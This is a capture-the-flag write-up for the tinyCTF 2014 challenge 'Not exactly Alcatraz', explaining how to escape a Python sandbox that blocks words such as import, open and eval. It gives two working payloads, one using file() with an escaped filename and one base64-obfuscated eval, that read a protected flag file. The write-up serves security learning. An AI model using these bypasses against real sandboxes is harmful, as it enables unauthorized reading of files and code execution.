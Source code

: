# tinyCTF 2014: Not exactly Alcatraz

**Category:** Exploitable
**Points:** 200
**Description:**

> [Exploit this](pwn200.zip)
> Over here: `nc 54.69.118.120 6000`
> Flag is in `/home/pybaby/flag.txt`

## Write-up

Let’s unzip [the provided `pwn200.zip` file](pwn200.zip):

```bash
$ unzip pwn200.zip
Archive:  pwn200.zip
  inflating: pwn200
```

The extracted `pwn200` file is a Python script.

```bash
$ python pwn200

Welcome to Safe Interactive CPython Shell (SICS)
================================================

Rules:
    - Wash your dishes
    - Don't eat the yellow snow
    - Do not import anything
    - No peeking at files!

baby@sics:~$
1 + 1
2
```

The script evaluates any Python code we enter, as long as it doesn’t contain the blacklisted words `import`, `open`, `flag`, `eval`, or `exec`. We need to find a way to break out of the sandbox and still read files.

The simplest solution is to use `file` instead of `open`:

```python
file('/home/pybaby/fl\x61g.txt').read()
```

Another possible solution that allows more generic code execution is the following:

```python
__builtins__.__dict__['ZXZhbA=='.decode('base64')]('b3BlbignL2hvbWUvcHliYWJ5L2ZsYWcudHh0JykucmVhZCgp'.decode('base64'))
```

`__builtins__.__dict__['ZXZhbA=='.decode('base64')]` is equivalent to `eval`, and `'b3BlbignL2hvbWUvcHliYWJ5L2ZsYWcudHh0JykucmVhZCgp'.decode('base64')` is `open('/home/pybaby/flag.txt').read()`. This prints the contents of the `/home/pybaby/flag.txt` file:

```
baby@sics:~$
__builtins__.__dict__['ZXZhbA=='.decode('base64')]('b3BlbignL2hvbWUvcHliYWJ5L2ZsYWcudHh0JykucmVhZCgp'.decode('base64'))
flag{python_sandboxing:_harder_than_teaching_your_mom_dota}

this is bad.

BitK vous fait des gros bisous

baby@sics:~$
```

The flag is `flag{python_sandboxing:_harder_than_teaching_your_mom_dota}`.

## Other write-ups and resources

* <http://sugarstack.io/tinyctf-exp-200.html>
* <https://poerhiza.github.io/ctf/2014/10/05/tinyCTF-write_ups-not_exactly_alcatraz/>
* [_Escaping Python sandboxes_](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/)
* <https://github.com/evanowe/TinyCTF2014-writeups/blob/master/README.md#not-exactly-alcatraz>
